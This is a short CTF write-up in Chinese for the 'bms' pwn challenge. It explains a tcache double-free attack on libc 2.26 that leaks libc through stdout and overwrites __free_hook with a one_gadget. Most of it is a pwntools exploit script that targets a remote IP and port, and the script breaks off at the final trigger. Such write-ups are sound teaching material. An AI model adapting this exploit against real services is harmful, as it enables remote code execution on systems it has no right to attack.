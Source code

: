 ### bms

远端环境是`libc2.26`,可以使用`tcache`攻击,利用`double free`把`chunk`分配在`stdout`附近,使`tcache bin`指向`_IO_2_1_stdout_`.

修改结构体泄露`libc`,再次使用`tcache`攻击分配`chunk`到`__free_hook`,劫持为`one_gadget`,调用`free`获得`shell`.

![](https://i.loli.net/2019/04/23/5cbde7238db45.png)

```python
from pwn import *

context.log_level = 'debug'
#r = process("./pwn")
r = remote("39.106.224.151", "60002")

def add(name, length, content):
    r.send(str(1))
    r.recvuntil("book name:")
    r.send(name)
    r.recvuntil("description size:")
    r.send(str(length))
    r.recvuntil("description:")
    r.send(content)
    r.recvuntil(">\n")

def remove(index):
    r.sendline(str(2))
    r.recvuntil("index:")
    r.sendline(str(index))
    r.recvuntil(">\n")

r.recvuntil("username:")
r.send("admin\n\x00")
r.recvuntil("password:")
r.send("frame\n\x00")

r.recvuntil(">\n")

add("a", 0xf0, "a")#0
remove(0)
remove(0)
add("a", 0xf0, p64(0x602020))#1
add("a", 0xf0, p64(0x602020))#2
add("a", 0xf0, p8(0x20))#3
r.send(str(1))
r.recvuntil("book name:")
r.send("a")
r.recvuntil("description size:")
r.send(str(0xf0))
r.recvuntil("description:")
r.send(p64(0xfbad2887) + p64(0x601F70) * 4)#4

libc = u64(r.recvuntil(">\n")[:6].ljust(8, '\0')) - 0x78460

add("a", 0xe0, "a")#5
remove(5)
remove(5)
add("a", 0xe0, p64(libc + 0x3dc8a8))#6
add("a", 0xe0, p64(libc + 0x3dc8a8))#7
add("a", 0xe0, p64(libc + 0x47c46))#8

r.sendline(str(2))
r.recvuntil("index:")
```